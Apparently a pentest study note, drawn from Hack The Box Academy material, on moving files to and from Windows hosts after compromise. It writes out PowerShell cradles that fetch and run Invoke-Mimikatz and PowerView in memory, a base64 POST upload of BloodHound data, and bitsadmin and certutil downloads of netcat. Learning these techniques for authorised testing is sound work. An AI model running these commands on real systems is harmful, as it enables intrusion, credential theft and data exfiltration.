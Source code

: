 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# PowerShell Downloads

## System.Net.WebClient
In most environments, HTTP/HTTPS traffic is allowed out of the firewall in some form - and if we have a GUI session, a web browser could also be used. However, from a Windows shell, PowerShell offers many file transfer options. In any version of PowerShell, the System.Net.WebClient class can be used to download a file over HTTP.

```powershell
PS C:\htb> (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
```

From PowerShell 3.0, Invoke-WebRequest is also available, but it is noticeably slower at downloading files. The aliases iwr, curl, and wget can be used instead of Invoke-WebRequest.

```powershell  
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

Instead of downloading to disk, the payload can instead be executed in memory, using Invoke-Expression, or the alias iex.

```powershell 
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

IEX also accepts pipeline input.
```powershell  
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex
```
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.
![Picture_of_IEengine](https://academy.hackthebox.com/storage/modules/24/IEerror.png)
![Picture_of_IE](https://academy.hackthebox.com/storage/modules/24/IE_settings.png)

This can be bypassed using the parameter -UseBasicParsing.

```
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
PS C:\htb> Invoke-CheckLocalAdminAccess

ComputerName IsAdmin
------------ -------
localhost      False
```

Alternatively, with administrative access to the machine, we can disable Internet Explorer’s First Run customization.

```powershell 
C:\htb> reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```
Powershell download cradles that do not observe Internet Explorer’s first-run check can also be used. Harmj0y has compiled an extensive list of PowerShell download cradles here. It is worth gaining familiarity with them and their individual nuances, such as not observing a proxy or touching a disk to select the appropriate one for the situation.

## PowerShell File Uploads

It is also possible to upload files using Powershell using Invoke-WebRequest or Invoke-RestMethod.

```powershell  
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))
```
```powershell
PS C:\htb> Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```
After catching the base64 data with Netcat, the payload can be decoded.

```powershell  
Ryohei@htb[/htb]$ echo <base64> | base64 -d -w 0 > bloodhound.zip
```

## Bitsadmin
The Background Intelligent Transfer Service (BITS) can download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user’s foreground work.

````powershell  
PS C:\htb> bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
````
PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

## Download
````powershell
PS C:\htb> Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
````
## Upload
````powershell
PS C:\htb> Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
````

## Certutil
Casey Smith (@subTee) found that certutil can be used to download arbitrary files. It is available in all Windows versions and has been a very popular file transfer technique, essentially serving as Wget for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious certutil usage.
```powershell
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
